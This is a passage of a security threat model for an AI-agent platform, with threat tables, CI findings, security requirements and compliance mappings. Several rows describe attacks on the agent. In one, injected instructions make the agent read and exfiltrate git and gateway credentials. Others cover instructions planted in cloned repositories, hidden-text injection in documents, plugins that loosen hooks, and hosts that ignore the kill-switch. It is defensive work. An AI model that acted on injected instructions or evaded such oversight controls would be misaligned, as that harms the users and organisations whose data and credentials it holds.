| TM-23 | **[Suspected]** I: **Cross-user or cross-tenant cache and memory bleed.** Examples: LiteLLM response or semantic cache in Redis serving user A's answer to user B; entitlement or policy caches keyed without `org_id`/`user_id`; pgvector queries without an ACL filter; shared buckets and trace projects in SaaS. | Model Gateway, Redis, vector store, SaaS (F-007, F-039, F-043) | M | H | REQ-013(a), REQ-105(a) | No rule forbids response caching. No cache-key design rule. | SR-20: turn off gateway response and semantic caching; use provider prompt caching only. Every cache key includes `org_id`, `user_id` and tier. Postgres RLS on `org_id`. Mandatory ACL filter in vector queries. In SaaS, per-tenant buckets and encryption keys. |
| TM-24 | **[Confirmed]** I: **PII and prompts in traces and logs.** OpenTelemetry spans and LLM tracing (Langfuse, spec §6.14) normally store full prompts and completions. Provider errors echo prompts. Electron crash dumps may hold content. REQ-071(d) sets per-tier storage for **audit** only. | Tracing, logging (F-011) | H | H | REQ-071(d), F-002 AC-14, F-004 AC-12 | Traces and operational logs are not bound by tier retention or redaction. | SR-21: traces follow the same per-tier mode as audit (T3 metadata only). Self-host LLM tracing in-region. A log-scrubbing library. No third-party crash reporting without scrubbing and consent. |
| TM-25 | **[Confirmed]** I/E: **Custom endpoints and personal keys bypass residency and enable SSRF.** Spec §6.5.2 allows "any OpenAI-compatible" endpoint and department/personal keys. A department admin or user points the gateway at an arbitrary URL (for example an internal admin API or cloud metadata) or at an out-of-region provider with a self-declared region. REQ-026 forbids personal keys only for T3. | Model Gateway, `/dept`, `/me` (F-030) | M | H | REQ-026(c), REQ-025(d) | Nothing controls who registers endpoints, how their region is attested, or SSRF. | SR-31: only platform admins register endpoints. Personal and department keys bind to registered endpoints, not free URLs. SSRF guard (deny private ranges and metadata unless registered as a local runtime). The platform admin attests the region of self-hosted endpoints. |
| TM-26 | **[Suspected]** I: **Bulk exfiltration through exports.** Audit export (REQ-067(e)), evidence pack (REQ-070), exit bundle (REQ-100), Data/Docs exports, sandbox download. | Console, Data/Docs workspaces | M | H | REQ-100(c) two-person rule; REQ-006(d) | Audit and evidence exports can hold PII and prompt content but have no second approver. No watermarking. No bulk alerting. | Export approval by tier. Watermark exports with user ID. Alert on volume. Keep the two-person rule for the exit bundle and extend it to audit exports that include prompts. |
| TM-27 | **[Confirmed]** E/I: **Over-privileged connectors / confused deputy.** Spec §6.7.1 allows Google domain-wide delegation and Exchange service accounts. REQ-035 allows service accounts with approval. The agent could then read any mailbox, and source-side permission trimming is lost. | MCP Gateway, connectors (F-027) | M | H | REQ-035(c) (flag and approve) | No binding of the impersonated subject to the calling user. | SR-30: for DWD or service accounts, the gateway sets the impersonation subject to the token's user; the model or user cannot control it. Service-account connectors are T1-only by default and listed in the evidence pack. |
| TM-28 | **[Suspected]** I: **ACL drift in indexed search** (Phase 3). Stale ACLs, nested groups not expanded, deleted content still in the index. | Indexer, vector store (F-039) | M | M | REQ-044(b)(d) | Group expansion and deletion propagation are not specified. | Check permissions again at the source when a result is returned, for T2+. Treat deletions as immediate. |

### 5.4 Sandbox, runtime and client isolation

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-29 | **[Suspected]** E: **Web sandbox escape and lateral movement.** Kernel or runtime escape; automounted Kubernetes service-account token; cloud metadata endpoint (IMDS); reaching Postgres, Redis, Vault or the control plane from a sandbox pod. | Workspace runtime (F-024) | M | H | REQ-014(c)(d), spec §6.3 gVisor/Kata | No hardening baseline stated. | SR-22: gVisor/Kata on a dedicated node pool. `automountServiceAccountToken: false`. IMDS blocked. Default-deny NetworkPolicy both ways. Egress only through a proxy with the allow-list. seccomp, read-only root, no hostPath, non-root. |
| TM-30 | **[Confirmed]** I: **Phase 1 web host isolation undefined.** REQ-013 requires per-user isolation in Phase 1, but the runtime that provides it (REQ-014, F-024) is Phase 2 (DV-16). A shared multi-user Node process would share memory, temp files and caches. | Server Agent Host (F-016) | M | H | REQ-013(a) | No mechanism for Phase 1. | At minimum one pod per user session, run under gVisor even without shell tools. No transcripts in in-process shared caches. Cross-user isolation tests at G6. |
| TM-31 | **[Confirmed]** I/E: **Credentials reachable by agent-run code.** Spec §6.3 puts SSO-linked git OAuth inside the sandbox. The Agent SDK host authenticates to the gateway with a token that is likely in its environment and inherited by terminal subprocesses. Injected instructions (`env`, `cat ~/.git-credentials`) plus allowed egress (for example github.com gists) exfiltrate tokens. | Sandbox, local host (F-003, F-024) | M | H | REQ-010(b), REQ-014(f) | Nothing isolates credentials from code the agent executes. | SR-23: a credential broker outside the sandbox (git credential helper calling a broker for short-lived, repo-scoped tokens such as GitHub App installation tokens). Scrub the environment of tool subprocesses. Use path-level egress rules, not whole domains, for hosts with upload features. |
| TM-32 | **[Suspected]** E: **Local terminal and file tools run with the user's full OS rights.** Examples: reading `~/.ssh` or `~/.aws` through commands (path scope applies only to file tools); blocklist evasion; instructions planted in a cloned repo. | Local Agent Host (F-003, F-015) | M | H | F-003 AC-4/AC-6, OQ-F003-2 (off by default, internal orgs only), REQ-059(a) | Blocklists are weak. The terminal has no OS-level sandbox. | SR-24: OS-level sandbox for local tools (Seatbelt on macOS, bubblewrap/Landlock on Linux, AppContainer on Windows). Command allow-list, with per-command approval outside it. Restrict terminal network egress. |
| TM-33 | **[Suspected]** E/I: **Unsafe Claude Agent SDK defaults.** Built-in tools (Bash, WebFetch, WebSearch, Task and so on) are on unless restricted. If `settingSources` is set, repository `.claude/settings.json`, `.mcp.json` and user settings can inject hooks and MCP servers. The SDK may send non-essential traffic (telemetry, auto-update) to vendor endpoints, which would break F-003 AC-1. Per the SDK docs, filesystem settings are **not** loaded by default (to verify for the pinned version). | Local and server Agent Host (F-003) | M | H | F-003 AC-1, AC-4, AC-5 | The SDK configuration contract is not specified. | SR-24: explicit `settingSources: []`; an explicit tool allow-list; base URL set to the Model Gateway; telemetry, non-essential traffic and auto-update disabled; never `bypassPermissions`; a `canUseTool` callback wired to server policy; pinned SDK version with a security review of each upgrade. |
| TM-34 | **[Suspected]** S/E: **Local host endpoint hijack.** A browser page reaches the localhost WebSocket (cross-site WebSocket hijacking, DNS rebinding), or another local OS user connects. | Local Agent Host (F-003) | M | H | F-003 AC-7 (per-session client credential) | No Origin validation or transport choice stated. | Prefer stdio, a Unix domain socket or a named pipe with OS ACLs. If WebSocket, validate `Origin` and `Host` and require a per-session secret that is not in the URL. |
| TM-35 | **[Confirmed]** E: **Renderer XSS becomes admin action or RCE.** Spec §6.13 puts the Console (including `/admin`) on the same domain and login as the Web IDE, which renders untrusted model and tool output. In Electron, XSS plus a broad preload/IPC surface gives local code execution. The in-app webview one-time code (REQ-069) is another token path. | Web app, Console, Desktop (F-015, F-016, F-018) | M | H | REQ-069(a)(c) | No CSP or origin-separation requirement. No Electron hardening requirement. | SR-15: serve `/admin` from a separate origin or require step-up plus strict CSRF and SameSite=strict. Strict CSP and Trusted Types. Electron with `contextIsolation`, sandboxed renderer, `nodeIntegration: false`, and a minimal validated IPC. No remote content. |
| TM-36 | **[Suspected]** E/I: **Attacks through document extraction.** Malicious PDF/Office/eml files, zip bombs, XXE, external templates in DOCX (SSRF), OCR engine memory bugs; hidden-text injection (white text, tiny fonts, Arabic diacritics). | Extraction service (F-026) | M | H | REQ-042(d)(e) | The service's isolation is not specified. | SR-25: run extraction in a gVisor sandbox with no network, resource limits, and external entities and templates disabled. Flag or strip hidden text and mark it untrusted. |

### 5.5 Secrets

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-37 | **[Confirmed external facts; applicability Suspected]** I/E: **LiteLLM as the gateway base.** LiteLLM can store provider credentials and virtual keys in its own DB (encrypted with a salt key), which conflicts with REQ-095's "never in the database". It has a master key and an admin UI. It had a PyPI supply-chain compromise on 2026-03-24 (litellm 1.82.7 and 1.82.8 stole environment variables, cloud and Kubernetes credentials) and CVE-2026-42208, an SQL injection in API-key verification (1.81.16 to 1.83.6). | Model Gateway (F-004, F-007) | M | H | REQ-024(a), REQ-095, F-004 AC-7 | The ADR has to weigh this. Nothing constrains how LiteLLM is deployed. | If LiteLLM is chosen: internal-only behind Ralysa's own authN and policy layer; admin UI off; master key from Vault; no provider credentials in its DB (use the vault integration or inject per request); pinned image digest from a verified release; 72 h patch SLA for critical fixes. Weigh a thin custom gateway in the ADR. |
| TM-38 | **[Suspected]** I/E: **Vault scope too broad and secret sprawl.** One gateway identity can read every department's and user's keys. Signing keys are exportable. Secrets end up in Kubernetes Secrets, Helm values or Terraform state. | Vault/KMS, deploy (F-002, F-004, F-023) | M | H | REQ-095(a)(b), F-002 AC-9/AC-10, `.gitignore:17-18` ignores tfstate | Vault policy granularity and signing-key custody are not specified. | SR-26: per-path Vault policies with Kubernetes/workload-identity auth. Signing keys non-exportable in KMS/HSM, signing through an API, JWKS for verification. Dynamic, short-lived DB credentials. Secret scanning of Helm values and images. |
| TM-39 | **[Suspected]** I: **Secrets in prompts, tool output and memory.** Users paste keys; tools read `.env`; transcripts and external models keep them. | Model Gateway, hooks, memory | H | M | REQ-059(b) (tool output), REQ-050 (memory) | Prompts typed by the user are not scanned before going to the model. | Scan every provider-bound payload for secrets in the Model Gateway, including user text. Redact before storing transcripts. |
| TM-40 | **[Suspected]** S: **Client token theft.** Malware on a laptop steals refresh tokens. | CLI, Desktop (F-005, F-015) | M | H | REQ-001(c) (no plaintext refresh token), REQ-017(b)(d) | Refresh rotation, reuse detection and sender constraint are not stated. | SR-07: OS keychain storage. Refresh-token rotation with reuse detection (revoke the whole family). Access tokens ≤ 15 min. DPoP where clients support it. Revocation takes effect ≤ 60 s. |

### 5.6 Supply chain

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-41 | **[Confirmed]** E/T: **Malicious or compromised plugins and skills weaken the controls.** Spec §6.10.1 lets plugins bundle **hooks** (the security layer), **policy templates**, subagents, UI panels (code in the IDE/Console origin) and skill scripts. REQ-047(a) imports public skills. Signing proves where a package came from, not that it is safe. | Marketplace, Agent Host, Console (F-019, F-028) | M | H | REQ-052(a)(b)(c), REQ-098(c), REQ-048(b), REQ-059(c) | Nothing stops plugin hooks or templates from loosening controls. UI panels run in a privileged origin. Personal skills with scripts may skip review. | SR-27: plugin hooks run after org hooks and can only add restrictions. Policy templates can only tighten (validated against ceilings). UI panels run in sandboxed iframes on a separate origin. A permission manifest (tools, egress domains, data scopes) is shown at approval and enforced at runtime. Skill scripts run only in the sandbox. A revocation list reaches every deployment, including air-gapped ones. |
| TM-42 | **[Confirmed]** I: **Third-party remote MCP servers as data sinks outside the region.** REQ-033 registers third-party servers. Tool arguments and results then flow to vendor-hosted infrastructure without the residency check the Model Gateway applies. | MCP Gateway, registry (F-009) | M | H | REQ-033, REQ-034 | The registry has no hosting location or tier eligibility. | SR-16: each registry entry records hosting location and eligible tiers. The MCP Gateway applies the session tier. T2/T3 sessions use only self-hosted or in-region servers. |
| TM-43 | **[Confirmed — see §5.8]** T: **Build pipeline and dependency compromise.** Actions are pinned to mutable tags, the workflow token's permissions are not set, lifecycle scripts run at install, and there is no SCA, secret scan, SBOM, signing or provenance. A compromised package (LiteLLM-style) or action runs with CI credentials. | CI/CD (F-001) | M | H | REQ-098 (Phase 2), F-001 (secret scan) | REQ-098 is Phase 2, but customer-operated installs (REQ-101/102) ship in Phase 1. | SR-28 (see §5.8 for specifics). Move REQ-098 to Phase 1. |
| TM-44 | **[Suspected]** T: **Tampered release, update or licence artefacts** for customer-operated and air-gapped installs. Examples: fake Helm charts, swapped images, forged licences. | Release, installer, licence (F-013, F-023, F-042) | L | H | REQ-081(a), REQ-103(b) | Image and chart signing is not required before Phase 4. | Cosign-sign images and charts; admission-time verification (policy controller); licence-signing key in an HSM; documented key rotation. |
| TM-51 | **[Suspected]** I: **Vendor channel into customer deployments.** Licence sync, update checks or remote support send tenant data out of region, or give Ralysa staff insider access. | Control plane, operations (F-013, F-023) | L | H | REQ-101(c) (optional licence sync only), REQ-102(a) | What licence sync sends, and how support access works, is not defined. | Licence sync carries only licence, seat-count and version metadata, documented for the QCB annex. Support access is customer-approved just-in-time, audited in the tenant, and off by default. |

### 5.7 Audit integrity and repudiation

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-45 | **[Confirmed]** T/R: **Audit tampering and forged or missing events.** (a) The Phase 0 audit store is append-only *through the API* only (F-002 AC-11). A DB superuser can change rows, and tamper-evidence waits for F-011. (b) **The briefs contradict each other.** F-002 AC-11 accepts audit writes only from "an authenticated Ralysa service" with a service identity. F-003 AC-12 needs the *local* host to write tool-call audit, but per F-003 AC-2 the local host holds only the user's token. Either local tool audit fails, or user tokens get audit-write rights without the actor being bound to the token subject (allowing forged events). (c) Some paths may skip audit: user-typed sandbox terminal commands, local stdio MCP, background jobs (SCIM, trial expiry), direct DB admin changes. | Control plane audit (F-002, F-003, F-011) | M | H | REQ-071(a)(b)(c), F-002 AC-11, F-003 AC-12/AC-13, F-004 AC-4/AC-6 | Tamper-evidence comes late. Client-attested audit is undefined. Completeness is not checked. | SR-29: an INSERT-only DB role for the audit writer, with no UPDATE/DELETE grants. A hash chain per stream from Phase 0, anchored periodically to WORM object storage in-region (object lock). A user-token ingestion endpoint that **forces actor = token subject** and sets `attestation=client`. Per-session sequence numbers with reconciliation at session end, so gaps can be detected. An audit event for every admin, job and DB-migration path. |
| TM-46 | **[Suspected]** D: **Fail-closed audit becomes a denial-of-service lever.** An audit outage or flood stops every agent (REQ-071(c), F-003 AC-13, F-004 AC-6). | Audit store | M | M | REQ-071(c) | No availability design for the audit path. | A durable in-region write-ahead queue whose acknowledgement counts as "written". HA audit store. Per-caller rate limits. Capacity alerts. |
| TM-47 | **[Suspected]** R: **Repudiated approvals and admin actions.** Shared admin accounts, break-glass accounts, approvals given on a hijacked session. | Control plane | L | M | REQ-062(f), REQ-067(b) | No break-glass or step-up rules. | Named identities only. Break-glass accounts are vaulted, alert on use, and are reviewed. Approvals for high-risk classes carry a step-up authentication context (`acr`/`amr`) in the audit record. |
| TM-48 | **[Suspected]** D/E: **The kill-switch does not reach local hosts.** Local tools keep running until the token expires (REQ-003(e)). A modified host ignores the kill-switch. | Local Agent Host, control plane (F-012) | M | M | REQ-064(a) | Local-tool enforcement relies on the host behaving. | Refuse client-attested audit ingestion while the kill-switch is on. Because audit fails closed (F-003 AC-13), honest hosts stop within 30 s. Gateways stop model and tool calls server-side. A modified host is covered by TM-07 controls. |

### 5.8 Repository findings (confirmed, code-level)

The repo holds only the scaffold. These findings are in existing files and feed TM-43.

| # | File:line | Finding | Label | Recommendation |
|---|---|---|---|---|
| RF-1 | `.github/workflows/ci.yml:16-18` | `actions/checkout@v4`, `pnpm/action-setup@v4` and `actions/setup-node@v4` are pinned to mutable tags. | Confirmed | Pin to full commit SHAs and let Dependabot/Renovate update them. |
| RF-2 | `.github/workflows/ci.yml:1-40` | No `permissions:` block, so the `GITHUB_TOKEN` scope follows the repo or org default (possibly write). | Confirmed | Add a top-level `permissions: contents: read`, and grant more per job only where needed. |
| RF-3 | `.github/workflows/ci.yml:22` with `package.json:4` (`pnpm@9.12.0`) | `pnpm install --frozen-lockfile` runs dependency lifecycle scripts (pnpm 9 default), so a malicious postinstall runs in CI and on developer machines. The lockfile is frozen, which is good. | Confirmed | Move to pnpm ≥ 10, or set an `onlyBuiltDependencies` allow-list. Keep `--frozen-lockfile`. |
| RF-4 | `.github/workflows/ci.yml:13-25` | No secret scanning, dependency audit/SCA, SAST, licence check or SBOM step. REQ-095 and REQ-098 need these, and the F-004 AC-7 and F-002 AC-9 scans depend on them. | Confirmed | Add gitleaks (or similar), `pnpm audit` or OSV-Scanner, CodeQL, a licence policy and a CycloneDX SBOM, and block on critical findings. |
| RF-5 | `.github/workflows/release.yml:3-8` | Any pushed `v*` tag creates a release with `contents: write`. No environment approval, artefact signing, SBOM or provenance. | Confirmed | Protected tag rules and a release environment that needs human approval (matches the CLAUDE.md hard rule). Cosign signing, SLSA provenance and the SBOM attached to the release. |
| RF-6 | `.claude/settings.json:4,8` | Development agents may run `pnpm install` and `pnpm turbo run *` without a prompt, so newly added dependencies' install scripts run on developer machines. | Suspected (low) | Keep this, but only after RF-3 is fixed. Require the code-reviewer agent to review every new dependency (maintainer, advisories, licence). |
| RF-7 | `pnpm-workspace.yaml:5` | `packs/*` are workspace packages. If department packs later include third-party or customer-authored content, it enters the build graph with full workspace trust. | Suspected (low) | Keep third-party plugin content out of the monorepo workspace. Build it separately and install it as signed artefacts (TM-41). |

---

## 6. Security requirements for the architecture

Each SR is a constraint the G3 architecture and later ADRs must meet. The "Traces to" column lists the threats each one mitigates.

| SR | Requirement | Traces to |
|---|---|---|
| SR-01 | **Server-side enforcement boundary.** Every control that must hold against a malicious user or a compromised device (masking, tier routing, label blocks, T3 deny, approvals, entitlement, kill-switch) is enforced in the control plane or a gateway. Host-side hooks are defence in depth only. Each control is documented as *server-enforced* or *client-assisted*. | TM-07, TM-12, TM-21, TM-48 |
| SR-02 | **Session classification high-water mark** held server-side per `session_id`. The MCP Gateway (source tiers and labels), uploads and the profile floor raise it. It never decreases, including across compaction and handoff. The Model Gateway routes on it. The client cannot lower it. | TM-08, TM-16, TM-19 |
| SR-03 | **Single inference choke point.** All model, embedding, OCR and classifier inference, including platform-internal calls, goes through the Model Gateway. Network policy and a CI rule block provider egress and provider SDKs everywhere else. | TM-19, TM-20 |
| SR-04 | **Processing-geography registry.** Each model deployment records endpoint region, processing geography, deployment type and eligible tiers, with vendor evidence and a date. Global, cross-region and data-zone types are denied for T2/T3 unless an audited exception exists. Audit and usage records carry both `endpoint_region` and `processing_geography`. Fallback never widens geography. | TM-20, TM-25 |
| SR-05 | **Gateway-side masking** of the final provider-bound payload (user text, tool results, attachments). Binary media is blocked or converted for T2+ to non-local models. Fail closed on detector error. Re-identification maps are per session, encrypted and in-region. | TM-21, TM-22, TM-39 |
| SR-06 | **Identity mapping.** IdP groups are mapped by immutable object ID. Overage is resolved or fails closed. Issuer and tenant are pinned. Users not mapped are denied by default. | TM-02, TM-06 |
| SR-07 | **Token model.** Short-lived access tokens (≤ 15 min), one audience per service, refresh rotation with reuse detection, OS keychain storage, service-to-service mTLS or workload identity, OBO-only downstream, no token passthrough to MCP servers, revocation ≤ 60 s. | TM-03, TM-40 |
| SR-08 | **Device-code hardening.** IdP-native flow where possible, code TTL ≤ 10 min, client and geo shown on confirmation, alert on IP mismatch, per-tenant disable switch, and loopback + PKCE as an alternative for the CLI. | TM-01 |
| SR-09 | **Object-level authorization.** Every control-plane and host API is authorized by the PDP on subject, action and resource (`org_id`, `dept_id`, owner). Postgres RLS on `org_id`. Sessions bound to the user. An IDOR test matrix is part of G6. | TM-04, TM-05, TM-23 |
| SR-10 | **PDP safety.** Default deny. Fail closed on PDP unavailability. Policy tests and an effective-permission diff at save. Two-person approval for T3 profile, admin-mapping and tier-mapping changes. | TM-06, TM-49 |
| SR-11 | **Server-issued approval grants.** Signed, single-use, bound to session, tool, canonical payload hash, approver and expiry. Verified by the executing gateway. Step-up authentication for the highest-risk classes, recorded in audit. | TM-12, TM-47 |
| SR-12 | **Honest approval rendering.** The canonical payload is shown, not the agent's summary. Bidi, zero-width and homoglyph characters are made visible. Full recipient and attachment lists, with external or classified items highlighted. Diff on edit. The same rules apply in the CLI. | TM-13, TM-50 |
| SR-13 | **Taint-aware tool gating and egress control.** Untrusted content in context tightens gating for every tool that can send data out. `web_fetch` is off by default for T2/T3 and otherwise goes through an egress proxy with an allow-list and DLP. External calendar invites count as external sharing. | TM-09, TM-10 |
| SR-14 | **Safe rendering.** No automatic loading of remote resources in chat, tool cards, previews or exports. Strict CSP. Sanitised markdown with no raw HTML. Link warnings. Terminal control and OSC sequences stripped in the CLI. | TM-11, TM-50 |
| SR-15 | **Client and origin hardening.** Admin console on a separate origin or behind step-up with CSRF and SameSite=strict. Trusted Types. Electron with context isolation, sandboxed renderer, no Node integration and minimal validated IPC. Local host on an OS-protected IPC channel or with an Origin-checked WebSocket. | TM-34, TM-35 |
| SR-16 | **MCP registry integrity and residency.** Pin hashes of tool metadata at approval and block on drift. Namespace tools per server. Record hosting location and eligible tiers for each server, and enforce them against the session tier. | TM-14, TM-42 |
| SR-17 | **Memory provenance.** Each entry records its source and trust level. Agent writes from tainted turns need user confirmation. The agent cannot write org or department scope. Memory reaches the model as quoted data. | TM-15, TM-05, TM-16 |
| SR-18 | **Database-layer enforcement** for connectors: read-only transactions, least-privilege per-user or per-profile roles, dangerous functions and network packages revoked, statement timeouts, replicas only. | TM-17 |
| SR-19 | **Agent-loop limits.** Maximum turns, tool calls and subagent depth per session. Per-minute rate limits at the gateways. Kill-switch state checked on every model and tool call. Anomaly alerts. | TM-18, TM-48 |
| SR-20 | **Cache and tenancy hygiene.** No gateway response or semantic caching. Every cache key scoped by org, user and tier. RLS everywhere. Per-tenant buckets and keys in SaaS. ACL filters in vector search. | TM-23, TM-28 |
| SR-21 | **Telemetry follows the tiers.** Traces and logs obey the per-tier prompt mode set for audit (REQ-071(d)). LLM tracing is self-hosted in-region. Logs are scrubbed. No unscrubbed third-party crash reporting. | TM-24 |
| SR-22 | **Isolation baseline.** The Phase 1 web host runs one pod per user session on gVisor. The Phase 2 sandbox adds: dedicated node pool, no service-account token, IMDS blocked, default-deny NetworkPolicy, egress only through a proxy, non-root, read-only root filesystem, seccomp. | TM-29, TM-30 |
| SR-23 | **Credential brokering.** No long-lived credentials inside sandboxes or tool subprocesses. Git and connector tokens are short-lived and scoped, issued by a broker outside the sandbox. Tool subprocess environments are scrubbed. | TM-31 |
| SR-24 | **Local execution safety.** Pinned Agent SDK configuration (no filesystem settings, explicit tool allow-list, gateway base URL, telemetry and auto-update off, policy-wired `canUseTool`). OS-level sandbox for the local terminal and file tools. Local tools and stdio MCP are denied for T2/T3 profiles unless the device is managed. | TM-07, TM-32, TM-33 |
| SR-25 | **Isolated extraction.** Sandboxed, no network, resource-limited. External entities and templates disabled. Hidden text flagged as untrusted. | TM-36 |
| SR-26 | **Secrets custody.** Vault or KMS only. Per-path policies with workload-identity auth. Non-exportable signing keys. Rotation without downtime. No provider credentials in any gateway DB (including LiteLLM's). Secret scanning of every provider-bound payload. | TM-37, TM-38, TM-39 |
| SR-27 | **Plugin containment.** Permission manifest enforced at runtime. Plugin hooks and policy templates can only tighten. UI panels in sandboxed iframes on a separate origin. Skill scripts only in the sandbox. Revocation distributed to all deployments. | TM-41 |
| SR-28 | **Build and release integrity.** SHA-pinned actions, least-privilege tokens, lifecycle-script allow-list, SCA, secret scan, SAST, licence policy, SBOM, cosign signing, SLSA provenance, protected tags and a release environment that needs human approval. Signature verification at admission in customer clusters. | TM-43, TM-44 |
| SR-29 | **Tamper-evident and complete audit.** INSERT-only writer role. Hash chain from Phase 0 with WORM anchoring in-region. Client-attested events flagged, with actor bound to the token. Per-session sequence reconciliation. Every admin, job and migration path audited. Fail closed through a durable queue. | TM-45, TM-46, TM-47, TM-07 |
| SR-30 | **Connector identity binding.** The impersonation subject for DWD or service accounts is set by the gateway from the token. Service-account connectors default to T1 and appear in the evidence pack. Export controls by tier. | TM-27, TM-26 |
| SR-31 | **Endpoint registration control.** Only platform admins register model endpoints. Keys bind to registered endpoints. SSRF guard on gateway egress. Region attestation for self-hosted endpoints. | TM-25 |
| SR-32 | **Admin and vendor access hardening.** Phishing-resistant MFA for admins. Step-up for sensitive actions. Alerts on admin-group changes. SCIM cannot grant admin. Vendor support access is just-in-time with customer approval. Licence sync carries metadata only. | TM-49, TM-51, TM-05 |

---

## 7. Control mapping

This mapping is **indicative**, to support REQ-099 and the REQ-070 evidence pack. ISO/IEC 27001:2022 Annex A and SOC 2 (2017 TSC, CC series) references are stated with reasonable confidence. **Qatar NIA v2.1 domain names, NCA ECC-2:2024 / CCC-2:2024 control numbers and SAMA CSF sub-section numbers are marked "to verify":** ECC numbering below follows the ECC-1:2018 structure and may have moved in ECC-2:2024. The CISO advisor must confirm them against the primary texts before any customer submission. QCB references come from `docs/market/regulation.md`.

| Control area | SRs | ISO 27001:2022 Annex A | SOC 2 | Qatar NIA v2.1 (to verify) | NCA ECC / CCC (to verify) | SAMA CSF (to verify) | Other Gulf |
|---|---|---|---|---|---|---|---|
| Identity, authentication, tokens | SR-06, SR-07, SR-08, SR-32 | 5.16, 5.17, 8.5 | CC6.1, CC6.2 | Access Control; Identity & Authentication domains | ECC 2-2 (IAM); CCC tenant IAM controls | 3.3.5 Identity & Access Management | — |
| Authorization, least privilege, object-level access | SR-09, SR-10, SR-01 | 5.15, 5.18, 8.2, 8.3 | CC6.1, CC6.3 | Access Control | ECC 2-2 | 3.3.5 | — |
| Data classification, tier routing, residency | SR-02, SR-03, SR-04, SR-31 | 5.12, 5.13, 5.14, 5.23, 5.34 | C1.1, C1.2, CC6.7 | Data Labelling / Classification; NCSA Data Classification Policy v3.0 (C0–C4) | ECC 2-7 (data & information protection); NDMO classification | 3.4.3 Cloud Computing (in-Kingdom default) | **QCB Cloud Reg Art. 21.4** (PII/financial data processed in Qatar), **Art. 21.5** (QCB approval); PDPPL (DPIA for cross-border); CBUAE outsourcing (master record in UAE) |
| PII masking, DLP, exfiltration controls | SR-05, SR-13, SR-14, SR-30 | 8.11, 8.12, 5.34, 8.23 | CC6.7, C1.1, P-series (privacy) | Data Protection / PDPPL alignment | ECC 2-7 | 3.3.x Data protection (to verify) | PDPPL; KSA PDPL transfer rules (SDAIA SCCs) |
| Prompt-injection defence, approvals, human oversight | SR-11, SR-12, SR-13, SR-17, SR-19 | 8.26, 8.28, 5.8 | CC7.2, CC8.1 (for change-class approvals), PI1.x (processing integrity) | NCSA AI Guidelines v1.0 (voluntary) | SDAIA AI Principles / GenAI guidelines | 3.3.6 Application Security | QCB AI Guideline (human oversight, register); CBUAE AI Guidance Note (kill-switch, oversight); DIFC Reg 10 |
| Application and client security (rendering, Electron, CSRF) | SR-14, SR-15 | 8.25, 8.26, 8.28, 8.29 | CC6.6, CC6.8, CC8.1 | Application Security / Secure Development | ECC 2-15 (web application security) | 3.3.6 | — |
| Isolation, sandboxing, network egress | SR-22, SR-23, SR-24, SR-25 | 8.20, 8.22, 8.31, 8.7 | CC6.6, CC6.8 | Network Security; Virtualisation / Cloud | ECC 2-5 (networks); CCC tenant workload isolation | 3.3.8 Infrastructure Security (to verify) | NCSA Cloud Security Policy v1.3 |
| Secrets and cryptography | SR-26 | 8.24, 5.17 | CC6.1, CC6.7 | Cryptographic Security | ECC 2-8 (cryptography) | 3.3.9 Cryptography (to verify) | QCB Cloud Reg (retain access to KMS logs) |
| Supply chain, SDLC, third-party components | SR-16, SR-27, SR-28 | 5.19, 5.20, 5.21, 5.22, 8.8, 8.25, 8.30, 8.32 | CC9.2, CC8.1, CC7.1 | Third-Party / Outsourcing Security; Change Management | ECC 4-1 (third party), 2-10 (vulnerability management) | 3.4 Third-Party Cybersecurity; 3.3.7 Change Management (to verify) | QCB outsourcing annex (sub-contractor approval); SAMA Outsourcing Rules |
| Audit logging, monitoring, evidence | SR-21, SR-29 | 8.15, 8.16, 5.28, 5.33 | CC7.2, CC7.3, CC4.1 | Logging & Security Monitoring | ECC 2-12 (event logs & monitoring) | 3.3.14 Security Event Management (to verify) | QCB AI register; DIFC Reg 10 register; REQ-070 evidence pack |
| Incident response and kill-switch | SR-19, SR-29 | 5.24, 5.25, 5.26 | CC7.4, CC7.5 | Incident Management | ECC 2-13 (incident management) | 3.3.15 Incident Management (to verify) | CBUAE AI GN (ability to stop the service) |
| Tenancy and customer-operated deployment | SR-20, SR-32 | 5.23, 8.31 | CC6.1, C1.x | Cloud Security | CCC-2:2024 (CSP and tenant) | 3.4.3 (private cloud out of scope) | CST provisioning (only if Ralysa operates KSA cloud); QCB exit/portability; CRA portability regulation |

---

## 8. Phase 0 must-haves vs later

### 8.1 Phase 0 must-haves (F-001 to F-005)

These are cheap now and expensive to retrofit. All are design or config items, so none should need a new REQ; they refine the briefs at G4.

| # | Item | Feature | SR | Why now |
|---|---|---|---|---|
| P0-1 | Map the Phase 0 access and admin groups by **object ID**. Pin issuer and tenant. Handle group overage (fail closed). | F-002 | SR-06 | Name-based matching would become the policy engine's input in F-006. |
| P0-2 | One audience per service; refresh-token rotation with reuse detection; signing keys non-exportable in KMS/HSM with a JWKS endpoint. | F-002 | SR-07, SR-26 | The token format is hard to change once three services depend on it. |
| P0-3 | Device-code hardening: IdP-native flow decision, TTL ≤ 10 min, confirmation context, IP-mismatch alert. | F-002, F-005 | SR-08 | The CLI is the only Phase 0 client, and device code is its sign-in. |
| P0-4 | **Resolve the audit ingestion contradiction** (TM-45(b)): a user-token endpoint that forces actor = token subject and sets `attestation=client`. INSERT-only writer role. Hash chain per stream from the first event. | F-002, F-003 | SR-29 | Retrofitting a hash chain can't vouch for past events. The contradiction blocks F-003 AC-12. |
| P0-5 | Model Gateway ADR accounts for TM-37 (LiteLLM constraints or a custom gateway). No response caching. Record `endpoint_region` and `processing_geography`. Use a **regional** Vertex endpoint, not global (OQ-F004-1). | F-004 | SR-04, SR-20, SR-26 | DV-12 evidence must be true from the first record. |
| P0-6 | Deployment-level `max_tier = T1` flag enforced by the gateway, plus a "synthetic data only" banner in the CLI for Phase 0 environments. | F-004, F-005 | SR-02 (seed) | Makes the PRD A-5 / F-004 "T1 only" rule technical, not procedural. |
| P0-7 | Pinned Agent SDK configuration (`settingSources: []`, explicit tools, gateway base URL, telemetry and auto-update off), environment scrubbing for tool subprocesses, realpath-based folder scope, local endpoint on OS-protected IPC or Origin-checked WS. | F-003 | SR-24, SR-23, SR-15 | Needed for F-003 AC-1, AC-2, AC-6 and AC-7 to pass. |
